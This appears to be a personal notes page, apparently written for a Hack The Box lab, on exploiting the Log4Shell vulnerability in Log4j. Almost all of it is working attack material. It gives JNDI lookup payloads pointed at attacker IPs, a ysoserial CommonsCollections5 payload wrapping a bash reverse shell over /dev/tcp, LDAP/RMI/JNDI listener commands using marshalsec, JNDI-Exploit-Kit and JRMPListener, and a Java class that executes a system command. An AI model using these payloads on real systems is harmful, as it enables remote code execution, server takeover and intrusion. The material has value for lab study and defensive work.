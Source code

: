 ```yaml
---
title: Log4Shell
date: 2022-01-01
categories:
  - Notes
tags:
  - Log4j
  - ysoserial
  - marshalsec

excerpt_separator: <!--more-->
---
```


<p>The widely-used java logging library, Log4j, has an unauthenticated remote code execution (RCE) and denial of service vulnerability if a user-controlled string is logged. This could allow the attacker full control of the affected server or allow an attacker to conduct a denial of service attack.</p>


<!--more-->

## Log4shell

### Setting up LDAP server using Marshalsec
[Marshalsec Github](https://github.com/mbechler/marshalsec)
- `java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "https://10.10.10.10:8888/#log4jrce"`

### Payload
- `${jndi:ldap://10.10.14.2:1337/a}` 
- `${jndi:ldap://10.10.14.2:1337/${sys:java.class.path} or ${java:version} or ${java:os}}` **_or can be replaced with .... to do nested thingy_**

### Creating serialized payload using ysoserial
[ysoserial-modified](https://github.com/pimps/ysoserial-modified)
- `java -jar ysoserial-modified.jar CommonsCollections5 bash 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' > ~/htb/logforge/ysoserial.ser` **_Creates a serialized payload_**

### Set up JNDI Listener using JNDI-Exploit-Kit
[JNDI-exploit-kit](https://github.com/pimps/JNDI-Exploit-Kit)
- `java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -L 10.10.14.6:1389 -P ~/htb/logforge/ysoserial.ser` **_Listens to port 1389 then sends ysoserial.ser_**
- after running ysoserial-modified we will get links for different versions for jdk to try out. `${jndi:ldap://10.10.14.6:1389/vojbuj}`

### Using ysoserial setup a JRMPListener that automatically sends CommonsCollections5 payload
- Using JRMPListener to send CommonsCollections `java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1337 CommonsCollections5 "**_CMD_**"` **_this will set up a listener listening on port 1337. send your payload `${jndi:rmi://10.10.10.10:1337/a}` and should receive something. 

### Example Class
```Java 
public class Log4jRCE {
    static {
        try {
            String [] cmd={"touch", "/tmp/TEST"};
            java.lang.Runtime.getRuntime().exec(cmd).waitFor();
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

